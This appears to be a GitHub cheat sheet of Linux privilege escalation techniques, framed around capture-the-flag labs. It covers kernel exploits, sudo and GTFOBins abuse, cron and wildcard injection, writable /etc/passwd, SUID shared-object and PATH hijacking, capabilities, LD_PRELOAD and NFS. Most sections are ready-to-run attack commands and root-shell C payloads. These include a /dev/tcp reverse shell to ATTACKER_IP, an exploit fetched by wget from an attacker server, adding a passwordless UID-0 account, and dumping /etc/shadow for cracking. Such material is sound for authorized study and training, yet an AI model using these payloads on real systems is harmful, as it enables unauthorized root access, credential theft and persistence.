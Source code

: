 ### ***Linux Privilege Escalation Examples***

<details>
<summary>Kernel Exploits</summary>
 <br> 
 Kernel Exploits
 ----------------------
Step 1: Identify & Search for Exploits
The first step is to identify potential exploits for the target system. You can use Searchsploit to find known vulnerabilities for the specific kernel version.
    
    cat /proc/version
    uname -a #will print the Kernel Version
    searchsploit linux 3.13.0-24
This will list exploits relevant to the kernel version. In this case, the target kernel version is 3.13.0-24.

To extract all the vulnerable kernel versions from that web you can do:

    curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
![image](https://github.com/user-attachments/assets/5629083f-a755-4c84-be78-db0c17a3e6fe)

Tools that could help searching for kernel exploits are:

[suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
[suggester2](https://github.com/jondonas/linux-exploit-suggester-2)
[linuxprivchecker](http://www.securitysift.com/download/linuxprivchecker.py)

Always search the kernel version in Google, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

Step 2: Locate the Exploit
Once you’ve identified a suitable exploit, use the locate command to find its full path and inspect the code.

    locate linux/local/37292.c
    cat /usr/share/exploitdb/exploits/linux/local/37292.c
This shows the contents of the exploit file, which you'll need to compile and execute.
![image](https://github.com/user-attachments/assets/3647680d-156d-453a-9f3b-8adb43c9396f)

Step 3: Check for Compiler and Permissions
Before proceeding with the exploit, ensure the necessary tools and permissions are available on the target system.

Check for GCC: Ensure that the GCC compiler is installed.

    which gcc
Check File Permissions: Verify that you have write permissions to the directory where you’ll save the exploit.

    ls -la
 ![image](https://github.com/user-attachments/assets/22116cd7-9f80-4db0-b85c-2120955a17bc)

Step 4: Copy and Rename the Exploit
Next, copy the exploit code to your Downloads folder and rename it to something like ofs.c.

    sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Downloads/
    mv 37292.c ofs.c
![image](https://github.com/user-attachments/assets/28fa1d5a-7532-42b9-bd10-1cfbabc9bcfa)

Step 5: Set Up an HTTP Server to Serve the Payload
On your attacker machine, start an HTTP server to serve the payload file (ofs.c) to the victim machine.

    updog -p 80
On the victim machine, use wget to download the exploit:

    wget http://10.6.42.239/ofs.c
![image](https://github.com/user-attachments/assets/b8dc99c8-d633-4f6c-a42c-8273b7f7e63f)

Step 6: Compile the Exploit
Now that the exploit is on the victim’s machine, compile the C code to create the binary that will escalate privileges.

    gcc ofs.c -o ofs
    ./ofs
Step 7: Verify Root Access
Once the exploit runs successfully, you should have root privileges. Verify by checking your user ID with whoami.

    whoami
You should see root, indicating that you’ve escalated to root privileges.
![image](https://github.com/user-attachments/assets/7729b24c-ccb3-49b2-af83-32e608213bcd)

Step 8: Locate the Flag
As a final step, search for the flag file on the system. You can use the following commands to locate and read the flag:

    find / -name flag1.txt 2>/dev/null
    cat /home/matt/flag1.txt
![image](https://github.com/user-attachments/assets/6fd0400a-4cff-4a01-a06d-1640757f4df3)

Summary
Privilege Escalation: This technique involves using kernel exploits to escalate user privileges.

Exploit Search: Use tools like Searchsploit to find relevant vulnerabilities for your target system.

Payload Delivery: Serve the payload using an HTTP server and download it on the target machine.

Compilation and Execution: Compile the C code and run it to gain root access.

Find and Read Flag: After gaining root privileges, locate the flag file to complete the task.


</details>

<details>
<summary>SUDO</summary>
 <br> 

Sudo Privileges
----------------------
Check Current Sudo Privileges
To check your current permissions related to sudo, you can use the following command:

    $ sudo -l
This will list the commands a user is allowed to run with sudo privileges. Based on this, an attacker may find a vulnerability to escalate privileges.
If a user has the ability to execute a command with sudo but doesn't have access to everything, we can search for payloads to leverage this.
search for payloads in https://gtfobins.github.io/

Exploit with Sudo
Assuming you can execute find with sudo, you can use the following command to spawn a shell with root privileges:

    sudo find . -exec /bin/sh \; -quit
![image](https://github.com/user-attachments/assets/1d174aff-f610-476e-bb4e-bb3d723280f9)

This command forces find to run a shell (/bin/sh) as root by using sudo. The -quit flag ensures that the find command stops executing immediately after spawning the shell.

Find Common Exploitable Binaries
Some binaries may be configured to allow root access when used with sudo. For example:

nano:
/usr/bin/nano is often a text editor installed on many Linux systems. If a user can run nano with root privileges, they can edit sensitive files, such as /etc/passwd.
![image](https://github.com/user-attachments/assets/e9e7c340-4896-4fe7-afec-00e1eb021b86)


less:
Similarly, less is a pager program, often used to view files. If improperly configured, it may allow privilege escalation:
![image](https://github.com/user-attachments/assets/ab8e392c-17f0-4c1e-be1d-61092cd8d27f)

Find the Flag
After successfully escalating privileges, you can search the system for the flag (or other sensitive files):

    find / -name flag.txt 2>/dev/null
Here, we look for a file called flag.txt and suppress any error messages.
![image](https://github.com/user-attachments/assets/d8883e72-a1a1-4fb4-bd40-dc2c3c781e46)

Find the Hash of Frank's Password
If the password file has been compromised or altered, you can often find hashes of user passwords, including Frank’s password:

      cat /etc/shadow | grep frank
Once you find the hash, you can try cracking it using tools like John the Ripper or Hashcat.
![image](https://github.com/user-attachments/assets/4ba1ec66-b320-40c7-8b8d-0d2d5fe25a1e)


Overwriting Files (Risky)

Warning: This command will overwrite important system files like /etc/passwd — don’t use this in production systems! This is useful only for Capture the Flag (CTF) scenarios or safe environments.

Here’s how you can potentially overwrite the /etc/passwd file to give yourself root access:
*** THIS WILL OVERWRITE THE PASSWD FILE, NOT A GOOD PRACTICE FOR CTF ***

    LFILE=/etc/passwd
    DATA='siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash\n'
    sudo find / -maxdepth 0 -fprintf "$LFILE" "$DATA"
Explanation:

This command creates a new user called siren in the /etc/passwd file with root privileges by adding a new line. could allow you to access the system as the siren user with root access. However, remember that overwriting critical system files can be dangerous.

Sudo version
Based on the vulnerable sudo versions that appear in:

    searchsploit sudo
You can check if the sudo version is vulnerable using this grep.

    sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

---
Abusing Intended Functionality
------------------------------


    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
---
Summary:

sudo Privileges: If a user has sudo access to certain commands (like find, nano, or less), they might be able to escalate their privileges.

Exploit via sudo: Using sudo find . -exec /bin/sh \; or exploiting misconfigurations with common binaries, an attacker could gain root access.

Overwriting Critical Files: Be cautious when overwriting system files like /etc/passwd — it’s risky but useful for CTFs.

Finding the Flag: Once you have root access, locate the flag and/or crack password hashes from /etc/shadow.
</details>

<details>
<summary>CORN JOB</summary>
 <br> 

Cron jobs
----------------------
Cron jobs are scheduled tasks that run scripts or binaries at specified times. By default, they execute with the privileges of their owner, not the user who triggers them. If a cron job is owned by root but writable by an unprivileged user, that user can inject code to run as root.

1. Understand Where Cron Jobs Live
System-wide crontab:
/etc/crontab — defines global scheduled tasks.

Per-user crontabs:
/var/spool/cron/crontabs/<username> — only editable by the respective user.

Cron directories (/etc/cron.hourly, /etc/cron.daily, etc.)

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.


    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root backup.sh
   ![image](https://github.com/user-attachments/assets/d30b6e0d-abcc-46ad-9898-cdc241acff03)


In the example above, /home/karen is in the PATH and our user can write to it.

Confirm What’s Running and When
You can observe cron in action using a tool like pspy on the target:

# Transfer and run pspy to monitor cron executions

    ./pspy64
You’ll see lines like:

[CRON] running /usr/local/bin/backup.sh

Inject Your Payload:

Create a /home/karen/backup.sh script which makes a SUID/SGID bit version of bash:
Since you have write access, append a reverse-shell or any root-shell payload:

Edit the script:

    nano /usr/local/bin/backup.sh
Append, for example, a simple bash reverse shell:

    # …existing backup commands…
    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
Save and exit.
Check and make the script executable:

    $ chmod +x /home/karen/backup.sh

Now wait for the cron job to execute. When it does,Start a listener on your attacker machine:


    $ nc -lvnp 4444
    #
Wait up to one minute for cron to run the modified script.

You’ll receive a root shell connection.

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.


    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh


    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:


    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:


    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh


    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #
</details>

<details>
<summary>File Permissions</summary>
 <br> 

Writable /etc/passwd Privilege Escalation

The /etc/passwd file on Unix-like systems contains essential information about user accounts, including the username, UID, GID, home directory, and default shell. If this file is writable by an unprivileged user, it presents a significant security vulnerability.

1. The passwd File Format
Each line in /etc/passwd represents a user account in the following format:

       username:password:UID:GID:GECOS:home_dir:shell

Exploiting a Writable /etc/passwd
If an attacker can modify /etc/passwd and add an entry for a new user with UID 0 (the root user ID), they can gain root access without needing a password.

Steps to Add a New Root User
Check if /etc/passwd is writable: Verify if you have write access to /etc/passwd:

    ls -l /etc/passwd
If you have write permissions, proceed.

Add a new root user: Use echo to append a new user to /etc/passwd with UID 0 (root user). This will make the new user a root user with no password.

    echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd
Explanation:

newroot is the username of the new account.

:: indicates no password.

0:0 are the UID and GID for root.

/root is the home directory (root's home).

/bin/bash is the default shell for this new user.

Switch to the new root user: Use su (switch user) to change to the newroot account:

    su newroot
You now have root privileges: After switching, you will have a root shell:

    # whoami
      root
Important Notes
No Password Needed: Since the new account has no password, the system won't prompt for one, and you can immediately log in as the new root user.

Permanent Access: The new root user will persist across reboots until /etc/passwd is modified again. This makes this method highly effective for establishing persistent root access.

</details>

<details>
<summary>SUID Binaries</summary>
 <br> 
Shared Object Injection
 ----------------------
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    or
    find / -type f -perm -04000 -ls 2>/dev/null
    or
    find / -perm -u=s -type f 2>/dev/null
    
These commands search the system for files with the SUID (04000) or SGID (02000) bits set and list them. Files with these special permission bits could potentially allow privilege escalation.

 ![image](https://github.com/user-attachments/assets/8886aea9-5c2f-47cf-adb5-361f174fde67)

A good practice would be to compare executables on this list with GTFOBins. Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a [pre-filtered list](https://gtfobins.github.io/#+suid).

Base64 configured with the SUID bit, can be leveraged for privilege escalation.
Decoding Base64-Encoded Files
You can sometimes encounter base64-encoded files like /etc/shadow or /etc/passwd, which contain encrypted or sensitive data. To decode these files, use the following commands:

Example for /etc/shadow:

    LFILE=/etc/shadow
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/shadow.
![image](https://github.com/user-attachments/assets/a520482d-fa30-4ac5-876e-17b2c3c13bc7)

Example for /etc/passwd:

    LFILE=/etc/passwd
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/passwd.

Cracking Password Hashes
After you have decoded sensitive files like /etc/shadow or /etc/passwd, you can extract password hashes and attempt to crack them.

Cracking /etc/shadow and /etc/passwd
Decode both files and copy them to your system. Then, run the following commands to prepare for password cracking:

    unshadow user2pass user2 > passwd.txt  # user2pass = /etc/passwd, user2 = /etc/shadow

Use John the Ripper to crack the password hashes with a wordlist:

    sudo john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
This will attempt to crack the password hashes using the rockyou.txt wordlist.
![image](https://github.com/user-attachments/assets/fcef5969-8533-4831-818a-946f88f12ed3)

Directly flag can be achived using base64 ablites: 
Example for a specific file (e.g., flag3.txt):

      LFILE=home/ubuntu/flag3.txt
      base64 "$LFILE" | base64 --decode
This command decodes the contents of flag3.txt.
![image](https://github.com/user-attachments/assets/cc23f201-dde6-4043-9ac5-9580c5648988)

Use strace to find references to shared objects:

    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:


    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:


    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:


    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:


    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:


    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:


    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:


    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:


    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'
</details>
<details>
<summary>Capabilities</summary>
 <br> 
What Are Capabilities?
----------------------
In Unix-like systems, capabilities are used to provide more granular control over the privileges of processes or binaries, rather than granting full root access. This method allows administrators to assign specific privileges to processes that would typically require higher-level permissions.

For example:

A SOC analyst might need to run a tool that initiates socket connections, but they don't require full root access. By using capabilities, the administrator can grant just the necessary permission to that specific tool, rather than giving the analyst root privileges.

How Capabilities Work
Instead of giving a program full root privileges, a system administrator can set specific capabilities on a binary to allow it to perform certain actions that would otherwise require elevated privileges. For instance, a binary might be given the capability to bind to privileged ports or set user IDs without granting the user full root access.

You can check which capabilities are assigned to a binary or process using the getcap tool.

Checking Capabilities on a System
To list all the binaries with specific capabilities set on your system, use the following command:

getcap -r / 2>/dev/null
This command recursively checks all files starting from the root directory and lists those with capabilities set. The output might look something like this:

/usr/bin/vim = cap_setuid+ep
This means that the vim binary has the cap_setuid capability, which allows it to change its user ID (UID) to any value, including root (UID 0).

Example of Exploiting Capabilities for Privilege Escalation
Let's say the vim binary has been granted the cap_setuid capability. This capability allows vim to change the user ID of the current process. If we can use this capability to set the user ID to 0 (root), we can effectively escalate our privileges.

Check the Capabilities: We use the getcap tool to see that vim has the cap_setuid capability set.

getcap /usr/bin/vim
Output might be:

/usr/bin/vim = cap_setuid+ep
Escalate to Root Using vim: With the cap_setuid capability, we can craft a command that uses vim to escalate to root. The following command utilizes Python scripting inside vim to change the user ID to 0 (root) and then spawn a root shell:

./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Breakdown of the Command:
:py3 import os: This imports the Python os module within vim.

os.setuid(0): This changes the user ID of the current process to 0, which is the root user.

os.execl("/bin/sh", "sh", "-c", "reset; exec sh"): This replaces the current process (which is vim) with a new shell (/bin/sh), and it spawns a root shell.

Result:
This command will execute the Python code inside vim, which changes the user ID to 0 (root) and opens a shell with root privileges. The result is a root shell.

After executing this, running whoami will show:

# whoami
root
You now have root access without needing to log in as the root user.

Conclusion
Capabilities offer a more granular control over process privileges by allowing specific permissions, such as changing user IDs or binding to privileged ports, to be granted to a binary.

If a binary like vim is configured with the cap_setuid capability, it can change its UID to root and escalate privileges.

Always ensure to audit and manage capabilities carefully to avoid inadvertent privilege escalation opportunities.

This method highlights the importance of reviewing and controlling which capabilities are granted to binaries on your system.
</details>
<details>
<summary>PATH Hijacking</summary>
 <br> 
 What is the PATH Environment Variable?
 ----------------------
In Linux, PATH is an environmental variable that tells the operating system where to look for executable files. When you run a command in the shell (such as ls, cat, or any custom script), Linux searches for that command in the directories listed in the PATH variable.

For example:

If a command is not built into the shell or if its absolute path is not specified, Linux will start searching for it in the directories defined under the PATH variable.

The PATH variable typically contains directories like /usr/bin, /bin, /usr/local/bin, etc., where most of the system binaries are stored.

How to Check the PATH?
You can check the current directories in your PATH by running:

echo $PATH
This will show a colon-separated list of directories, like this:

/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/games:/usr/games:/snap/bin
Exploiting Writable Folders in PATH
If a folder listed in PATH has write permissions for your user, you could potentially hijack an application by placing a malicious script or executable in that folder. This could trick the system into running your script instead of the legitimate binary when the application is called.

Writable Folders Search: To identify writable directories in the PATH, you can use the following command:

find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
This will search for writable folders under the /usr directory and display the results. Some of these directories may be part of the PATH and could be hijacked.

Example output might look like this:

/usr/local
/usr/bin
Hijacking a Command: If a writable folder is found in PATH, you can replace a system command with a malicious script. For example, you could create a script named thm in a writable directory like /tmp and hijack the thm command.

Example of Hijacking Using Writable Folders in PATH
Let’s consider the following example:

Check the Current PATH: We can check if /tmp is in the PATH by running:

echo $PATH
If /tmp is not in the PATH, we can add it. This is done using the following command:

export PATH=/tmp:$PATH
This command prepends /tmp to the beginning of the PATH, making it the first directory that the system will search for executables.

Creating a Malicious Script: Next, we can create a malicious executable in /tmp. In this case, we can copy the /bin/bash binary to /tmp and rename it to thm:

cp /bin/bash /tmp/thm
chmod +x /tmp/thm
Hijacking the Application: Now, if the system tries to run the thm command, it will search in /tmp first (because we added it to the PATH). Since we have placed our malicious thm script in /tmp, the system will execute our script instead of the legitimate one.

When the user runs the thm command, the system will execute the bash shell from /tmp, giving the attacker a shell with the same privileges as the user who ran the command.
</details>
<details>
<summary>Startup Scripts</summary>
 <br> 

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:


    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:


    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:


    $ /tmp/rootbash -p
    #
</details>
<details>
<summary>Configuration Files</summary>
 <br> 

Configuration files are usually stored in /etc.
----------------------
Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).
</details>
</details>
<details>
<summary>LD_PRELOAD</summary>
 <br> 
Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

Sudo has the ability to preserve certain environment variables:


    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.


    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #
</details>
<details>
<summary>NFS</summary>
 <br> 

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.


    $ cat /etc/exports

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:


    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:


    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    # gcc -o rootsh rootsh.c
